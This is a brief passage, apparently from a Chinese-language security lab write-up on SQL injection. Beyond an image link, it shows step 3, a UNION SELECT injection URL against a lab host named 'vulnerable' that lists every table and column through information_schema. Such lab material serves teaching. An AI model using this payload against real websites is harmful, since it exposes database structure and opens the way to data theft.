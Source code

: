 ​        ![11](https://github.com/CUCCS/2018-NS-Public-jackcily/raw/Ns_chap0x07_%E4%BB%8ESQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/img/11.PNG)
​        

3.按顺序获取所有列对应属于的表  `http://vulnerable/cat.php?id=1 UNION SELECT 1,table_name ,column_name,4 FROM information_schema.columns`